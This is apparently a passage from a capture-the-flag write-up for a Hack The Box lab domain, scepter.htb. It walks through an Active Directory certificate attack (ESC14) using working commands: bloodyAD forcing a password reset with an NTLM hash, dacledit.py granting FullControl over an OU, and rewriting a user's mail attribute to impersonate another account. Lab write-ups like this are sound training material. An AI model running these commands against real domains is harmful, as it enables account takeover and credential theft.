 We observed that the certificate template **requires the user's email address** when submitting a certificate request. Because of this, we need the ability to **modify the email attribute** of a user who is allowed to enroll using this template — specifically, a member of the **Staff** group.

Let’s now review the access control requirements.

```bash
╭─LDAP─[dc01.scepter.htb]─[SCEPTER\d.baker]-[NS:<auto>]
╰─PV ❯ Get-DomainCATemplate -Identity StaffAccessCertificate -Select msPKI-Enrollment-Flag
AutoEnrollment|NoSecurityExtension
```

The **ESC9 attack surface** is considered broad because it typically allows impersonation by modifying a user's `userPrincipalName` (UPN). However, in this case, the certificate template doesn’t rely on the UPN — it specifically requires the **email address** instead.

This behavior is controlled by the `SubjectAltRequireEmail` flag, which tells the CA to check for a **Subject Alternative Name (SAN)** containing an email address (RFC822Name). As a result, instead of impersonating through the UPN, we need to provide a **valid, preconfigured email address**, which shifts the vulnerability scenario from **ESC9 to ESC14**.

```bash
╭─LDAP─[dc01.scepter.htb]─[SCEPTER\d.baker]-[NS:<auto>]
╰─PV ❯ Get-ADObject -Properties altSecurityIdentities
altSecurityIdentities     : X509:<RFC822>h.brown@scepter.htb
```

See?????? We already owned him. Lets start with change passworwd of a.carter.

### ForceChangePassword

```bash
➜  scepter bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce set password a.carter NewPassword123
[+] Password changed successfully!
```

### GenericAll

```bash
➜  scepter dacledit.py -action write -rights FullControl -inheritance \
-principal 'a.carter' \
-target-dn 'OU=Staff Access Certificate,DC=scepter,DC=htb' \
'scepter.htb/a.carter:NewPassword123'

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250711-185101.bak
[*] DACL modified successfully!
```

now we will use GenericALll and update mail of d.baker and change with h.brown!!! after dump D.baker pfx file and auth it we will grab H.browns hash

```bash
➜  scepter bloodyAD -d scepter.htb -u a.carter -p NewPassword123 --host DC01.scepter.htb set object d.baker mail -v h.brown@scepter.htb        
[+] d.baker's mail has been updated
```

